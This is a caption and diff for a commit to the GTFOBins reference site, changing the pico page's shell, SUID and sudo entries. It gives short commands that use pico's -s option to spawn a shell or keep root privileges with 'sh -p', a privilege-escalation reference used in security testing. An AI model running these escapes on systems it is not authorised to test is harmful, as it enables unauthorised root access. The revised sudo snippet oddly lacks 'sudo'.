

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pico.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1325 px from its top, so only the background shows below that.

Commit message:
Improve pico shell, suid, and sudo

```diff
--- a/_gtfobins/pico.md
+++ b/_gtfobins/pico.md
@@ -2,10 +2,8 @@
 functions:
   shell:
     - code: |
-        TF=$(mktemp)
-        echo 'exec sh' > $TF
-        chmod +x $TF
-        pico -s $TF /etc/hosts
+        pico -s /bin/sh
+        /bin/sh
         ^T
   file-write:
     - code: |
@@ -17,15 +15,14 @@ functions:
   suid:
     - code: |
         TF=$(mktemp)
-        echo 'exec sh -p' > $TF
+        echo '#!/bin/sh -p
+        exec sh -p' > $TF
         chmod +x $TF
         ./pico -s $TF /etc/hosts
         ^T
   sudo:
     - code: |
-        TF=$(mktemp)
-        echo 'exec sh' > $TF
-        chmod +x $TF
-        sudo pico -s $TF /etc/hosts
+        pico -s /bin/sh
+        /bin/sh
         ^T
 ---
```
